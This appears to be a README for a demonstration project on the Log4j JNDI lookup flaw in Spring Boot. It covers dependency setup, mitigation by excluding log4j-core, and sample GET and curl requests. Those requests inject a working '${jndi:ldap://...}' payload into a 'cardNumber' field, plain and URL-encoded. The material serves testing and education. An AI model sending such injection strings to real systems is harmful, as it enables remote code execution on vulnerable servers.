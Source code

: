 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.

#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

#### Even if you try to use Logger for log4j (like below), it will still use the logback.
    import org.apache.logging.log4j.Logger;
    import org.apache.logging.log4j.LogManager;
    
    Logger log =  LogManager.getLogger(Log4jJndiBugApplication.class);

Use next method for investigations.

    GET http://localhost:8080/api/infected-method
    cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'
    
    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
